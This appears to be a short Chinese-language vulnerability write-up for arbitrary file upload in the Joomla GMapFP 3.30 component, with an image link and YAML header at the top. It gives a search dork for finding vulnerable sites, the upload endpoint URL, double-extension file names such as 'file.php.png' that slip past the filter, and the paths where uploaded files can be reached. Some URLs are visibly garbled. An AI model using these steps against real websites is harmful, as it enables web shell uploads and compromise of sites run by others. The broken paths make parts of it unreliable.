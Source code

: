 ```yaml
---
title: Joomla! component GMapFP 3.30 任意文件上传
id: zhfly2996
---
```


# Joomla component GMapFP 3.30 任意文件上传

## 一、漏洞简介

关键字:inurl:''com_gmapfp''

## 二、漏洞影响

Joomla Gmapfp Components 3.x

## 三、复现过程

```
http://www.0-sec.org/index.php?option=comgmapfp&controller=editlieux&tmpl=component&task=upload_image 
```

```
file.php.png , file2.php.jpeg , file3.html.jpg ,file3.txt.jpg 
```

目录文件路径

```
http://www.0-sec.o../img/gmapfp/file.php 
```

```
http://www.0-sec.o../img/gmapfp/file.php.png 
```